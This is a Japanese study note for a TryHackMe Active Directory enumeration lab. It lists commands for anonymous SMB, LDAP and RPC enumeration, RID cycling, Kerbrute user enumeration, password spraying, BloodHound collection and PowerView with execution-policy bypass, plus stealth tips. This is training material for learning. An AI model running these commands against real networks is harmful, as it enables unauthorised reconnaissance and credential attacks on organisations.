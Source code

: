 # AD 列挙

https://tryhackme.com/room/adbasicenumeration

## 認証なしの列挙

### ネットワークマッピング

#### ホスト検出

```shell
fping -agq 10.211.11.0/24
```

### nmap

```shell
# Kerberos, PRC, 従来のSMB, LDAP, 最新のSMB, kpasswd
nmap -p 88,135,139,389,445 -sV -sC -iL hosts.txt

# フルポート
nmap -sS -p- -T3 -iL hosts.txt -oN full_port_scan.txt
```

### SMB 列挙

```sh
# 列挙（-N : NoPassword）
smbclient -L //10.211.11.10 -N

# 接続
smbclient //10.211.11.10/SharedFiles -N

# 多彩な情報
enum4linux -a TARGET_IP > enum4linux.txt
```

### ドメイン列挙

```sh
# LDAP列挙
# -x: シンプルな認証。この場合は匿名認証。
# -H: LDAP サーバーを指定。
# -s: クエリを基本オブジェクトのみに制限し、サブツリーや子オブジェクトは検索しない。
ldapsearch -x -H ldap://10.211.11.10 -s base
```

```sh
# ユーザー情報照会
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"
```

```sh
# 可能な限り多くの情報を取得
enum4linux-ng -A 10.211.11.10 -oA results.txt
```

```sh
# RPC列挙（Nullセッション）
rpcclient -U "" 10.211.11.10 -N

> enumdomusers
> help
```

```sh
# RIDサイクリング
for i in $(seq 500 2000); do echo "queryuser $i" |rpcclient -U "" -N 10.211.11.10 2>/dev/null | grep -i "User Name"; done
```

```sh
# Kerbruteによるユーザー名の列挙（有効なユーザー名かどうか表示される）
kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users.txt
```

https://github.com/ropnop/kerbrute/releases

### パスワードスプレー

```sh
# パスワードポリシーの照会
rpcclient -U "" 10.211.11.10 -N
rpcclient $> getdompwinfo
```

```sh
# パスワードポリシーの照会
crackmapexec smb 10.211.11.10 --pass-pol
```

```sh
# パスワードスプレー攻撃
crackmapexec smb 10.211.11.20 -u users.txt -p passwords.txt
```

## 認証ありの列挙

### runas

ドメイン名、ユーザー名、パスワードを知っているが、ドメインに参加している PC には直接ログインできないとする。

資格情報をメモリに挿入する。  
/netonly のため、資格情報はドメイン コントローラによって直接検証されず、任意のパスワードが受け入れられることに注意

```ps
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

DNS を構成する

```ps
$dnsip = "<DC IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip

# DNSが機能しているか確認
nslookup za.tryhackme.com
```

資格情報が正しいか確認。  
ホスト名指定すると Kerberos 認証になる。IP を指定すると NTLM 認証を強制することができ、NTLM 認証の方がステルス性が高い。

```ps
dir \\za.tryhackme.com\SYSVOL\
```

### GUI

リモート サーバー管理ツール(RSAT)  
アプリと機能から RSAT をインストールできる。

runas で起動したプロンプトから、rsat を起動。  
あとは GUI での操作。

```ps
mmc
```

### コマンドプロンプト

ドメインに参加しているマシンから実行する必要がある。

https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems

```shell
# ドメイン内の全ユーザーを列挙
net user /domain

# ユーザーの詳細情報
net user <username> /domain

# ドメインのグループを列挙
net group /domain

# グループのメンバーシップ詳細
net group "Tier 1 Admins" /domain

# パスワードポリシー
net accounts /domain
```

### Powershell

コマンドプロンプトより監視されている可能性は高いことに注意

https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

```ps
# ユーザーの詳細情報
Get-ADUser -Identity <username> -Properties *

# フォーマット例
Get-ADUser -Filter 'Name -like "*stevens"' | Format-Table Name,SamAccountName -A

# グループの列挙
Get-ADGroup -Identity Administrators

# グループメンバーシップ
Get-ADGroupMember -Identity Administrators

# 特定の日付以降
$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)

Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects

# badPwdCount が 1 より大きいアカウント
Get-ADObject -Filter 'badPwdCount -gt 0'

# ドメイン
Get-ADDomain

# パスワード変更
Set-ADAccountPassword -Identity <username> -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```

### Bloodhound

https://github.com/BloodHoundAD/BloodHound

SharpHound で列挙し、Bloodhound でグラフ化する。

SharpHound 列挙は大量のイベントログを生成するため、初回は All、次回以降はセッションのみといった運用が必要。セッションは頻繁に列挙しなおす必要がある。

```ps
# 全部列挙
# アウトプットとして zipファイルが作成される
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

# セッションだけ
SharpHound.exe --CollectionMethods Session --Domain za.tryhackme.com --ExcludeDCs
```

```shell
# kali に zip をコピー
scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .
```

Bloodhound には neo4j のインストールが必要。

```shell
sudo neo4j console
```

Bloodhound を起動  
SharpHound のバージョンと一致させる必要がある点に注意。

```shell
bloodhound --no-sandbox
```

GUI に zip ファイルを D&D したらインポートされる。

### PowerView

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Powershell の起動とロード

```ps
powershell -ep bypass
. .\PowerView.ps1
```

```ps
# ドメインユーザーの列挙
Get-NetUser | select cn

# ドメイングループの列挙
Get-NetGroup -GroupName *admin*
```

コマンドチートシート
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
